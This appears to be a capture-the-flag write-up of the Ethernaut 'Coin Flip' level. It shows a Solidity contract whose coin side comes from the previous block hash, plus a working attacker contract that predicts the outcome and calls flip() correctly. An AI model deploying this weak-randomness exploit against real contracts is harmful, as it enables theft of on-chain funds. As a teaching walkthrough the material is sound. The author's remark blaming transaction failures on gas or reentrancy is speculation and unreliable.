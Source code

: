 # Coin Flip

```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

According to source code here, Coin Side is decided by last block's hash value divides with a hardcode value.

Last block's hash value is a public number, with source code we can also predict the Coin Side.

Let's deploy a contract before which we design a function that will calculate the CoinSide before call target challnge to `flip()`.

```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  function CoinFlip() public {}
  function flip(bool _guess) public returns (bool) {}
}

contract CoinFlipCheater{
    address instance_address = /*ur_instance_address_here*/;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function hack() public{
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = (coinFlip==1);
        CoinFlip target = CoinFlip(instance_address);
        target.flip(side);
    }
}
```

![](https://i.imgur.com/WnZ97ks.png)

Here's something tricky, seems Solidity try to fix something about Gas( probability Reentrant I think ;) ) that will sometime block our interaction.
![](https://i.imgur.com/ia9YNhw.png)
![](https://i.imgur.com/PEdmr3N.png)

Due to sometime fail in transaction, ensure your instance's `consecutiveWins` number before you submit the instance.
![](https://i.imgur.com/543ljJX.png)
